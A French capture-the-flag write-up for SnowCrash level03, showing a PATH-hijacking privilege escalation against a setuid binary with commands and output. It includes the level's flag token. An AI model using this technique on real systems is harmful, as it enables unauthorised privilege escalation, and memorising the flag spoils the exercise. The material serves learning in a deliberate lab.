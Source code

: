 On trouve dans le dossier **home** un binaire **level03** qui, lorsqu'on le lance, nous affiche un message :
<pre><code>> ./level03
Exploit me</code></pre>

On cherche à savoir ce que le binaire fait, pour cela on utilise **ltrace** :
<pre><code>> ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()											= 2003
geteuid()											= 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )
</code></pre>
On observe que le binaire fait un appel **system** pour faire un **echo**

Du coup nous essayons de changer cet appel pour avoir accès à un shell avec les permissions de l'owner :

<pre><code>> echo "/bin/bash" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>
> Nous remplaçons le **/bin/echo** par un **/bin/bash** pour lancer une nouvelle instance de bash avec des droits plus élevés (ceux de l'owner)

On relance notre binaire :
<pre><code>> ./level03</code></pre>

Notre user passe de <code>level03@SnowCrash</code> à <code>flag03@SnowCrash</code>

Donc notre user a bien changé :
<pre>
<code>> getflag</code>
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</pre>
> La commande **getflag** est la seule commande que nous pouvons faire, bien évidemment, sinon il nous serait possible de faire ce que l'on veut sur l'ISO


## Alternative

<pre><code>> echo "/bin/getflag" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>

On relance notre binaire :
<pre><code>> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</code></pre>
